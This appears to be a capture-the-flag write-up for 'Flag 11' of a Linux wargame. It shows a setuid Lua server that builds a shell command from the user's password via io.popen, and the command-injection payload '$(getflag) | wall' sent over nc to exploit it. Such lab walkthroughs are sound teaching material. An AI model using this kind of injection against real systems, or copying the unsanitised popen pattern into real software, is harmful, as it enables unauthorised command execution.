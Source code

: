 # Flag 11

```bash
$ ll
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout*
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua*
-r-x------  1 level11 level11  675 Apr  3  2012 .profile*
```

We have a Lua program which is a server listening for password, but to get the hash of the password it does something a bit weird.

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

So maybe we connect to server and send a password which contains getflag we maybe can execute it. And the command we find is:

```bash
$ nc localhost 5151
Password: $(getflag) | wall
```
